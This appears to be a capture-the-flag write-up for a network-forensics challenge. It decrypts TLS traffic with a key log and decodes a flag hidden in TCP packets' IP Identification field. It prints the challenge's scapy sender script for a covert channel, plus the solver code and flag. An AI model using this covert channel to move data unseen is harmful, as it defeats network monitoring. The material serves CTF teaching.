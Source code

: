 # covert
>It appears there's been some shady communication going on in our network...

To start, we're given a pcap(ng) file and a keys.log file, so that should tell us we're gonna be fiddling with Wireshark. 

Opening up Wireshark, we see a lot of TLS packets and not a lot of HTTP so we configure the keys.log file in our Wireshark settings to decrypt this TLS for us. Now the beautiful greens of the HTTP packets are visible! 

Filtering to HTTP packets (of which there are only 6), we spot something interesting; looks like 172.20.10.5 was served a sneakly little python script

![image](https://github.com/user-attachments/assets/0d268e2e-b0c6-4c5d-b68b-a5c8c42cab79)


```python3
from scapy.all import IP, TCP, send
key = ??
dst_ip = "X.X.X.X"
dst_port = ?????
src_ip = "X.X.X.X"
src_port = ?????
def encode_message(message):
    for letter in message:
        ip = IP(dst=dst_ip, src=src_ip, id=ord(letter)*key)
        tcp = TCP(sport=src_port, dport=dst_port)
        send(ip/tcp)
encode_message("????????????")
```

The same host is also browsing (over HTTP2) a firstmonday.org article about Covert channels in the TCP/IP protocol suite (hmm I wonder what this challenge will be about)

We now know to be suspicious of 172.20.10.5's requests over TCP, and if they're using the python script they fetched previously, they're utilizing a 2-digit key to encode their secret messages in the IP section of the TCP packet. The encoding takes a single letter of their message, converts it to decimal, and multiplies it by said key.

The next thing to do is to start snooping around 172.20.10.5's TCP connections and pay extra attention to the IP header contents

![Peek 2024-09-20 02-26](https://github.com/user-attachments/assets/ee704806-84af-4299-9607-5ca6f005c980)

Ain't that strange... Looks like there's something going on with the Identification field. Let's analyze this bad boy in Python and see what happens

```python3
import pyshark

def IPidTCPCovertChannel(packets_of_interest: list[int], flag_format: str, keylog_file: str=None) -> str:
    if keylog_file:
        cap = pyshark.FileCapture("chall.pcapng", override_prefs={"ssl.keylog_file": keylog_file})
    else:
        cap = pyshark.FileCapture("chall.pcapng")

    ip_ids_hex = []
    for idx in packets_of_interest:
        try:
            ip_ids_hex.append(cap[idx].ip.id)
        except AttributeError:
            pass

    #assuming this will give us the flag outright, we know it starts with csaw{ and ends with }
    str_ = ""
    for idx in range(len(ip_ids_hex)):
        #convert hex str ip_id_hex to decimal number ip_id_dec
        ip_id_dec = int(ip_ids_hex[idx], 16)
        #0 is divisible by everything and if we let a zero pass, we're gonna get a divide by zero error, so let's ignore naughty zeros
        if not ip_id_dec: continue
        #we're working with factors of idx, ensure that ip_id is divisible by idx
        if ip_id_dec % ord(flag_format[0]) == 0:
            key = ip_id_dec // ord(flag_format[0])
            if chr(ip_id_dec // key) == flag_format[0]: break
            #TODO may want to store all potentially valid keys in an array in case of false positives

    for idx in range(idx, len(ip_ids_hex)):
        str_ += chr(int(ip_ids_hex[idx], 16) // key)
        if str_[-1] == "}": break

    print(str_)

    return str_

if __name__ == "__main__":
    packets_of_interest = list(range(256, 306))
    flag_format = "csawctf{"
    keylog_file = "keys.log"
    flag = IPidTCPCovertChannel(packets_of_interest, flag_format, keylog_file=keylog_file)
```

Since we know the flag should start with 'c' (decimal 99), we can go letter by letter, checking if our encoded characters are divisible by 99 and, if so, check if the ASCII representation of said division is the character 'c'. If the previous conditions are true, it's probably our flag. 

And just like magic, after running the script, we get: csawctf{licen$e_t0_tr@nsmit_c0vertTCP$$$}

